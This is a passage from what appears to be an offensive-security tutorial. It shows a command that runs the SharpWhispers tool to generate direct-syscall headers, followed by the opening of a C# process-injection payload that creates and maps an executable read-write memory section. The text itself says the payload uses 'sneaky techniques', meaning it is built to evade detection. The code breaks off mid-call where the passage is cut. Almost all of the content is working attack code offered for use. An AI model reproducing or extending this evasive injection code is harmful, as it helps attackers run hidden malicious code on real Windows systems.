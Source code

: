 The following **Python** command uses SharpWhispers to generate the header files
for our payload:

```bash
python3 SharpWhispers.py -f \
    NtOpenProcess,\
    NtCreateSection,\
    NtMapViewOfSection,\
    NtWriteVirtualMemory,\
    NtProtectVirtualMemory,\
    NtCreateThreadEx\
    -o SharpWhispers
```

The following C# .NET code uses the library code provided by SharpWhispers to
generate a payload that uses sneaky techniques to execute our process injection
procedure:

```csharp
﻿using System;
using System.Diagnostics;
using System.Linq;
using Data = SharpWhispers.Data;
using Syscall = Syscalls.Syscalls;

namespace Inject
{

unsafe public class Program
{
    private static uint SEC_COMMIT = 0x8000000;

    public static void Main(string[] args)
    {
        ulong pageSize = 0x1000;
        IntPtr sectionHandle = IntPtr.Zero;
        uint sectionMask =
            (uint)(Data.Win32.WinNT.ACCESS_MASK.SECTION_MAP_READ |
                   Data.Win32.WinNT.ACCESS_MASK.SECTION_MAP_WRITE |
                   Data.Win32.WinNT.ACCESS_MASK.SECTION_MAP_EXECUTE);

        Syscall.NtCreateSection(
            ref sectionHandle,
            sectionMask,
            IntPtr.Zero,
            ref pageSize,
            Data.Win32.WinNT.PAGE_EXECUTE_READWRITE,
            SEC_COMMIT,
            IntPtr.Zero
        );

        IntPtr localSectionAddress = IntPtr.Zero;
        IntPtr tmp = IntPtr.Zero;
        IntPtr hThis = Process.GetCurrentProcess().Handle;

        Syscall.NtMapViewOfSection(
            sectionHandle,
            hThis,
            ref localSectionAddress,
            IntPtr.Zero,
            IntPtr.Zero,
            tmp,
            ref pageSize,
            2,
            0,
```